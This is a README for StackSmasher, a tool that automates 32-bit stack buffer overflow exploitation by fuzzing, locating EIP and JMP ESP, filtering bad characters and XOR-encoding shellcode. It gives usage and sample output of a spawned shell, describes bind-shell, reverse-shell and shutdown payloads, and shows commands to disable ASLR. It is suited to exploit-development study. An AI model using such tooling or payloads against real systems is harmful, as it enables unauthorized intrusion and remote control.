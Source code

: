 # StackSmasher

## Description
StackSmasher is an application which automatically performs a stack based buffer overflow on the target application. Currently it only supports attacking a vulnerable application through the application run time arguments. However, future modifications are to support various application inputs such as standard input and tcp input.

It will rerun the application many times to fuzz the input until a segmentation fault occurs. It will then find the offset of EIP, as well as the address of a JMP ESP instructions. Next it tests all characters to find any bad characters. Afterwards, it xor encodes the payload to obfuscate the payload and remove any bad characters. Finally it builds the final payload and outputs it.

## Running StackSmasher
```sh
./smasher vulnerable
```

Example Output:
```
   _____ __             __   _____                      __             
  / ___// /_____ ______/ /__/ ___/____ ___  ____ ______/ /_  ___  _____
  \__ \/ __/ __ `/ ___/ //_/\__ \/ __ `__ \/ __ `/ ___/ __ \/ _ \/ ___/
 ___/ / /_/ /_/ / /__/ ,<  ___/ / / / / / / /_/ (__  ) / / /  __/ /    
/____/\__/\__,_/\___/_/|_|/____/_/ /_/ /_/\__,_/____/_/ /_/\___/_/     
                                                                       
                    By https://github.com/McCaulay                     

[*] Fuzzing EIP and finding JMP ESP...
[+] Found JMP ESP at 0x565561fe
[+] EIP found at offset 0x51e with a padding length of 0x530
[*] Finding bad characters...
[+] Found 4 bad characters: \x00\x0a\x0d\x43
[*] XOR encoding payload...
[+] Executing application with payload...
_________________________________________

Hello AAAAAAAAAAAAAAAAAAAA...(truncated)
$ pwd
/home/mccaulay/StackSmasher/bin
```

Help:
```
Usage: StackSmasher [options] application 

Positional arguments:
application           	The target application being tested

Optional arguments:
-h --help             	Shows help message and exists
--version             	Show program's version number and exit
-p --payload          	The built-in payload to use. [execute, bind-shell, reverse-shell, shutdown] [default: "execute"]
-pf --payload-file    	The binary payload file to be sent instead of built-in payload. [default: ""]
-v --verbose          	Verbosity level: 0-4. [default: 1]
-n --nops             	The number of NOPs to put in the NOP sled before the shell. [default: 20]
-q --quiet            	Do not print the start header. [default: false]
-e --exploit          	Automatically run the full payload against the application. [default: false]
-s --script           	Save the exploit as a script for the given language. [python, go, c] [default: ""]
-sf --script-filename 	The filename without extension the script should be saved as if --script is passed. [default: ""]
--binary              	The binary the application should execute if a built-in payload is selected. [default: "/bin/sh"]
--shell-ip            	The IP address a reverse shell should connect to. [default: "127.0.0.1"]
--shell-port          	The port number a bind shoud listen on or a reverse shell should connect to. [default: 1337]
--skip-aslr-check     	Skip checking if ASLR is enabled and proceed anyway. [default: false]
--skip-encoding       	Skip encoding the payload and checking bad characters. [default: false]
--no-colour           	Do not output ANSI escape codes to show colours. [default: false]
```

## Limitations
Various settings must be disabled for this to work including DEP, NX, and ASLR. ASLR needs to be done manually using the following script. This application also only works against 32 bit applications.

## ASLR
ASLR must be disabled to test this application.

### Disable ASLR
```sh
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

### Enable ASLR
```sh
sudo bash -c "echo 2 > /proc/sys/kernel/randomize_va_space"
```

## Payloads
There are currently four payloads in this project.

### sh.bin
sh.bin is a simple shell which executes the /bin/sh application. This application can be easily modified in the payloads/sh.asm file, and then recompiled.

### bind-shell.bin
bind-shell.bin will listen for a connection port 1337. This can be changed in payloads/bind-shell.asm and then recompiled.

### reverse-shell.bin
reverse-shell.bin will connect to a shell listening on ip 127.0.0.1 and port 1337. This can be changed in payloads/reverse-shell.asm and then recompiled.

### shutdown.bin
shutdown.bin will automatically shut down the computer when executed.

## Compiling
To compile the applications as 32 bit, you may need to install gcc-multilib.
```sh
sudo apt-get install gcc-multilib
```

Compile all applications.
```sh
make
```

# Improvements
- [ ] Debug and fix the bug which causes payload not to work on some occasions. If not encoded, sh.bin works but reverse-shell.bin doesnt. Encoding makes results random. Possibly a bad character that isn't picked up on the bad character functionality? Other potential reasons could be bad character at a specific index only?
- [ ] Search library memory for JMP ESP
- [ ] Support alternatives to JMP ESP
- [ ] Support payload prefix and suffix (--template file?)
- [ ] Support more application input types (interactive, stdin, network).
- [ ] Validate there is enough space for payload
- [ ] Move shellcode to inside padding then decrease ESP, JMP ESP?
- [ ] Support x64
- [ ] ROP Chains
- [ ] Support more encoders.
- [ ] Ret2Libc
- [ ] Windows
